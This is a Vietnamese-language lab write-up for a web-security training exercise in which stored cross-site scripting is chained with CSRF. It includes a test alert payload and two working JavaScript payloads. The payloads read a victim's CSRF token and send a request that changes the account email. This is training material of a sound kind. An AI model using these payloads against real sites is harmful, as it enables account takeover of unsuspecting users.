

## Exploiting XSS to perform CSRF

1. Login vào account được cấp. Thử chức năng đổi mật khẩu nhận thấy yêu cầu cần 2 tham số là email và csrf token

2. Khi thử payload ``<script>alert(1)</script>`` trong ô input comment nhận thấy lab tồn tại lỗ hổng xss

3. Để thực hiện thay đổi email ta cần gửi 1 request có chứa csrf token ở trang `my-account`. Do đó trước hết tạo 1 request để lấy được giá trị csrf token.

```
<script>
var req = new XMLHttpRequest();
req.open("GET", "/my-account", false);
req.send();
token = req.responseText.match(/name="csrf" value="(.*)"/)[1];
alert(token);
</script>
```



4. Sau khi có được csrf token thì tạo post request change email bằng fetch với payload 

```
<script>
var req = new XMLHttpRequest();
req.open("GET", "https://0a92000b0480b5cac086bdfb0021005f.web-security-academy.net/my-account", false);
req.send();
token = req.responseText.match(/name="csrf" value="(.*)"/)[1];
console.log(token);

fetch("https://0a92000b0480b5cac086bdfb0021005f.web-security-academy.net/my-account/change-email", {
        method: 'POST',
        body: 'email=sv_cuongdm@viettel&csrf=' + token
    });

</script>
``` 

-> Thành công